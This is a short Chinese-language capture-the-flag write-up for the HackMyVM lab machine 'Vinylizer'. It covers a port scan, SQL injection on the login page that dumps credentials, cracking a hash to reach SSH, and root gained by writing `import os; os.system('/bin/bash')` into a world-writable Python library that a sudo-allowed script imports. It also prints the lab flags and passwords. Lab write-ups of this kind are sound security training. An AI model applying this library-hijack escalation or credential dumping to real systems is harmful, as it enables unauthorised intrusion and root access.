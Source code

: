 # Vinylizer

2025.03.26 https://hackmyvm.eu/machines/machine.php?vm=Vinylizer

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

http://192.168.5.39/login.php 登陆存在 sql 注入， vinyl_marketplace 中的 users 表中有登陆凭据：

```
+----+-----------+----------------------------------+----------------+
| 1  | shopadmin | 9432522ed1a8fca612b11c3980a031f6 | 0              |
| 2  | lana      | password123                      | 0              |
+----+-----------+----------------------------------+----------------+
```

在线 hash 匹配，找到 shopamdin 的明文密码 addicted2vinyl 可以用这个用户登陆 ssh。

拿到了 user flag:

```
shopadmin@vinylizer:~$ cat user.txt
I_L0V3_V1NYL5
```

sudo -l 显示 (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py

发现脚本中引用的一个库对全体用户有修改权限 /usr/lib/python3.10/random.py 直接将 `import os; os.system("/bin/bash")` 写入，然后再执行 sudo，拿到 root 权限。

```
root@vinylizer:~# cat root.txt
4UD10PH1L3
```
